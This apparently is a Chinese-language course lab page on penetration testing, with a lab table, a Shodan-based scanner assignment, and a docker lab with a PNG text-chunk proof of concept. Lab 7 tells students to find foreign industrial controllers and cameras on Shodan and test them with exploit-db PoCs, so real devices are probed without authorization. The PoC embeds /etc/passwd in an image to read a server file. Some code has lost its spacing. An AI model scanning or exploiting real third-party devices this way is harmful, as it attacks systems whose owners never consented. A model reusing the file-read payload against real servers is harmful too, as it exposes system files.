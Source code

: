 

| 6 | 渗透测试实操实验                   | 1.一次完整的渗透测试体验2.渗透测试-Metasploit进行漏洞利用3.渗透测试-网络扫描4.渗透测试-Tomcat目录穿越5.渗透测试-Joomla cms反序列化远程代码执行6渗透测试-拒绝服务攻击7.渗透测试-JBoss反序列化漏洞检测 | 0.5周 | 实验室 |
| - | ---------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----- | ------ |
| 7 | 网络设备扫描工具设计与开发         | 设计并开发工具，完成对指定的联网工控或物联网（如西门子PLC、摄像头）设备的识别，基于此了解漏洞扫描的原理                                                                                              | 1.5周 | 实验室 |
| 8 | 简单模糊测试漏洞挖掘工具设计与开发 | 学习模糊测试漏洞挖掘的原理和方法，采用随机变异/生成的方法构造测试用例，并实现对指定软件的持续发包测试。                                                                                              | 1.5周 | 实验室 |

1）实验6具体要求和步骤

（1）搭建具备漏洞虚拟机环境（可采用之前课程构建的环境，漏洞不限于上表中的要求）

（2）完成一次完整的渗透测试，包括网络扫描（存活性探测、操作系统探测、服务探测、漏洞验证、漏洞利用，工具可采用nmap、metasploit等，不限）

2）实验7具体要求和步骤

参考nmap实现原理，完成以下实验内容：

（1）登录shodon https://www.shodan.io/，查找国外资产（注意**一定找国外资产**，建议优先选择工控设备、摄像头等）的IP作为被探测目标对象。被测资产可以是单个资产也可以是资产列表。

（2）采用多线程/进程方式（建议，如有困难可以单进程单线程）实现任务调度，通过多线程或子进程进行目标存活性探测、端口开放探测、资产版本探测以及构造漏洞测试用例（测试用例即为具体要发送的探测数据包，可以从网络查询获取任一漏洞的探测报文，可参考exploitdb中的漏洞POC），测试漏洞是否存在。


# Description

环境说明：

服务器

```shell

NAME="CentOS Linux"

VERSION="7 (Core)"

ID="centos"

ID_LIKE="rhel fedora"

VERSION_ID="7"

PRETTY_NAME="CentOS Linux 7 (Core)"

ANSI_COLOR="0;31"

CPE_NAME="cpe:/o:centos:centos:7"

HOME_URL="https://www.centos.org/"

BUG_REPORT_URL="https://bugs.centos.org/"


CENTOS_MANTISBT_PROJECT="CentOS-7"

CENTOS_MANTISBT_PROJECT_VERSION="7"

REDHAT_SUPPORT_PRODUCT="centos"

REDHAT_SUPPORT_PRODUCT_VERSION="7"

```

docker 环境说明

```shell

Dockerversion23.0.0,builde92dd87

```

## steps

依据docker环境进行操作

```shell

# 后台创建并运行docker容器

docker-composeup-d

```

使用漏洞扫描工具进行扫描

AWVS

编写脚本将文本文件转换为图片

```python

withopen(to_filename, 'wb') as f:

    f.write(png.signature)

    if from_filename:

        p = png.Reader(filename=from_filename)

        for k, v in p.chunks():

            if k != b'IEND':

                png.write_chunk(f, k, v)

    else:

        png.write_chunk(f, b'IHDR', IHDR)

        png.write_chunk(f, b'IDAT', IDAT)


    png.write_chunk(f, b"tEXt", b"profile\x00" + read_filename.encode())

    png.write_chunk(f, b'IEND', b'')

```

将指定路径下的文本生成图片

```shell
./poc.py generate -o poc.png -r /etc/passwd
```

将该图片上传进行提交，并将生成的新文件进行解析

```shell
./poc.py parse- i out.png
```


# shodan搜索引擎
> 参考链接 https://shodan.readthedocs.io/en/latest/tutorial.html

